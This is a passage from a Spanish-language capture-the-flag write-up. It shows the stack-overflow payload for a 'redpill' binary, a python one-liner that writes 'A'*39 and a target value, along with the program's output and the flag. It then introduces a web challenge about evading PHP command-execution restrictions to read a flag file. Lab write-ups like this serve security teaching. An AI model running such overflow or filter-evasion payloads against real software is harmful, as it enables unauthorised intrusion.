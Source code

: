 ````
          :ymNN/                   
         .-+shdho.                 
             `.--..` '''   

 Take the Red Pill!! 

     Red Pill  0x50444552
     Your Pill 0x42424242

  Blue Pill
```

Como se puede observar hemos escrito 'B'*4 en la dirección de memoria, tan solo queda apuntar a la dirección de 'Red Pill'.

```
root@kali:~/Desktop# ./redpill $(python -c "print 'A'*39 + '\x52\x45\x44\x50'")

    .--``..---.                
     .````--:ohdmNms/`         
      -:/+++/-.:smNd+          
   ```..--:ohmNNdhh.           
 `-. `.``.-+sosshd.         :. 
-os--/sosdmmNNMMNy         .+// 
:h+.+hNNMMMNNNMMNm/      `/yNN.` 
.do/oNNMMMMMmohs+:`    .+hNMMMM-` 
`yohNhNNNMh-           dosNMMMmo- 
-mN+hMMMy             .smNMNdd/+`
yN.hMMh               +NMMNmhds:
+N//m+                 .osshyho 
..smhh                           
::oNmy-                         
  .//yhs/:`                    
      :ymNN/                   
     .-+shdho.                 
         `.--..` '''   

Take the Red Pill!! 

 Red Pill  0x50444552
 Your Pill 0x50444552

Red Pill
fwhibbit{t4ke-b0th_1346651474} 
```

## Indonesia
**Title:** Impossible is nothing 

**Description:** One of our rabbits has lost the keys of his server to access his flag. He is crying desperately as he only remember that the flag was in the path: "/tmp/flag.php" but he dont know how to get there. 
Our friend BugsBunny was performing reconnaissance tasks when suddently found a web that could help you, please bring me back his flag.

**Category:** Web

**Points:** 500

**Link:** [Click here](http://web6.ctf.followthewhiterabbit.es:8006/)


Esta prueba estaba pensada para evadir ciertas funciones de php que permiten ejecutar comandos en el sistema o leer archivos.
````